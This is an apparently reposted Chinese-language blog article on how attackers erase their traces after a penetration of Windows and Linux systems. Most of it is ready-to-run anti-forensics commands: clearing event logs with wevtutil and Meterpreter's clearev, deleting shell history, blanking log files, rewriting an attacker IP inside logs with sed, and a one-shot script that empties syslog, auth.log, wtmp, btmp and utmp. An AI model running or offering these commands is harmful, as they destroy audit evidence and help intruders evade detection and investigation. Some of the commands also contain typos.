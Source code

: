 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SWMWVezAVzykkjTuRRDxJw)

**一、前言**
--------

在渗透完成之后，为了减少被发现和追溯的概率，攻击者有必要清除自己的攻击痕迹，本文分别对 windows 和 linux 上清理痕迹的方式做一个总结。

**二、windows**
-------------

有远程桌面权限时手动删除日志：  

```
开始-程序-管理工具-计算机管理-系统工具-事件查看器-清除日志
```

wevtutil：  

```
wevtutil el             列出系统中所有日志名称
wevtutil cl system      清理系统日志
wevtutil cl application 清理应用程序日志
wevtutil cl security    清理安全日志
```

meterperter 自带清除日志功能：  

```
clearev     清除windows中的应用程序日志、系统日志、安全日志
```

清除 recent：  

在文件资源管理器中点击 “查看”->“选项”-> 在常规 ->隐私中点击”清除”按钮

或直接打开 C:\Users\Administrator\Recent 并删除所有内容

或在命令行中输入 del /f /s /q “%userprofile%\Recent*.*

**三、linux**
-----------

### **清除命令历史记录**

```
histroy -r          #删除当前会话历史记录
history -c          #删除内存中的所有命令历史
rm .bash_history   #删除历史文件中的内容
HISTZISE=0          #通过设置历史命令条数来清除所有历史记录
```

### **在隐蔽的位置执行命令**

使用 vim 打开文件执行命令  

```
:set history=0
:!command
```

### **linux 日志文件**

```
/var/run/utmp 记录现在登入的用户
/var/log/wtmp 记录用户所有的登入和登出
/var/log/lastlog 记录每一个用户最后登入时间
/var/log/btmp 记录错误的登入尝试
/var/log/auth.log 需要身份确认的操作
/var/log/secure 记录安全相关的日志信息
/var/log/maillog 记录邮件相关的日志信息
/var/log/message 记录系统启动后的信息和错误日志
/var/log/cron 记录定时任务相关的日志信息
/var/log/spooler 记录UUCP和news设备相关的日志信息
/var/log/boot.log 记录守护进程启动和停止相关的日志消息
```

完全删除日志文件：  

```
cat /dev/null > filename
: > filename
> filename
echo "" > filename
echo > filename
```

针对性删除日志文件：  

```
删除当天日志
sed  -i '/当天日期/'d  filename
```

篡改日志文件：  

```
将所有170.170.64.17ip替换为127.0.0.1
sed -i 's/170.170.64.17/127.0.0.1/g'
```

一键清除脚本：  

```
#!/usr/bin/bash
echo > /var/log/syslog
echo > /var/log/messages
echo > /var/log/httpd/access_log
echo > /var/log/httpd/error_log
echo > /var/log/xferlog
echo > /var/log/secure
echo > /var/log/auth.log
echo > /var/log/user.log
echo > /var/log/wtmp
echo > /var/log/lastlog
echo > /var/log/btmp
echo > /var/run/utmp
rm ~/./bash_history
history -c
```

作者：Leticia，文章来源：Leticia‘s Blog

**推荐阅读****[![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavyIDG0WicDG27ztM2s7iaVSWKiaPdxYic8tYjCatQzf9FicdZiar5r7f7OgcbY4jFaTTQ3HibkFZIWEzrsGg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247493726&idx=2&sn=ea7c8b6a9a2814777ef818d2d4032f4e&chksm=9acd38c1adbab1d7c352c6a7258b9b4c65e6a6524eab769950f76016c667f4efa8cb8d1f5d4c&scene=21#wechat_redirect)**

公众号

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**
